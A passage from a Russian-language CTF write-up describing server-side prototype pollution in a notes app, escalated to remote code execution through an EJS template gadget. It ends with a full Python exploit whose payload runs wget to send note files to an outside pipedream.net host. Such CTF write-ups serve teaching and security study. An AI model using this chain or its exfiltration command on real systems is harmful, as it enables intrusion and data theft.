 Теперь попытка создать кастомный атрибут verified: ![poc](img/reqrSSPP.jpg)

Сперва выполняем запись полезной нагрузки в settings.proto файл, далее для отрабатывания создаем записку, чтобы поместить пейлоад в функцию `parse`, которая небезопасно обработает вводные и я успешно создал новый атрибут verified со значением `true` для всех объектов.

С имеющимся SSPP далее можно решить разными способами.
## RCE через гаджет ejs
EJS шаблонизатор, как сказано в [статье](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce), развязывает нам руки решить таск unintended способом - получив Remote Code Execution. Если кратко по гаджетам, то необходимо поставить атрибут `client` равным единице и  `escapeFunction` в значение `JSON.stringify; process.mainModule.require('child_process').exec('wget http://collaborator.qwe')`, а также важно после записи этих атрибутов отрендерить страничку на фронте, например сделать get запрос на `/create`, чтобы стриггерить ejs и он исполнил то, что мы ему приказали. 

Итоговый сплойт для этого способа:
```py
import requests

BASE_URL = "http://localhost:3000"

def pp(key: str, value: str):
    author = "option(a).constructor.prototype." + key + "=" + value + ""
    res = requests.post(BASE_URL +
        "/customise",
        json={
            "data": [
                {},
                {
                    "author": author,
                },
            ]
        },
    )
    assert res.json()["Message"] == "Settings changed", res.text
    res = requests.post(BASE_URL + "/create", json={})
    assert res.status_code == 500

pp("client", "1")
pp(
    "escapeFunction",
    "\"JSON.stringify; process.mainModule.require('child_process').exec('wget https://enq0o6tnl7p8d.x.pipedream.net/ --post-data=\\\"$(cat notes/*)\\\"')\"",
)

requests.get(BASE_URL +"/create")
```